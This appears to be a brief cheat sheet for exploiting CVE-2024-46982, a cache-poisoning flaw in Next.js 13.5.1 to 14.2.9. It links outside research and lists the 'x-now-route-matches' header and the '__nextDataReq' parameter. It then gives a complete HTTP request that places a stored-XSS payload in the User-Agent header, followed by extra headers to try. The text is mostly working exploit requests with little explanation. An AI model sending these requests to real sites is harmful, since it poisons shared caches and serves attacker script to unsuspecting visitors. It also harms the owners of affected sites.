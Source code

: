 #### Next.js between 13.5.1 and 14.2.9 => CVE-2024-46982

[https://zhero-web-sec.github.io/research-and-things/nextjs-cache-and-chains-the-stale-elixir](https://zhero-web-sec.github.io/research-and-things/nextjs-cache-and-chains-the-stale-elixir)


## Headers 
```
x-now-route-matches: 1
```
```
/_next/data/{buildID}/targeted-page.json

https://www.example.com/?__nextDataReq=1
```

```
GET /poc?__nextDataReq=1 HTTP/1.1
Host: localhost:3000
User-Agent: CP TO SXSS ON NEXT.JS : <img src=x onerror=alert('Palestine')>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
x-now-route-matches: 1
```

## Try this headers in the request and Observer the Changes in the Response headers. 

```
X-middleware-prefetch: 1
```

```
RSC: 1
```


------------------------------
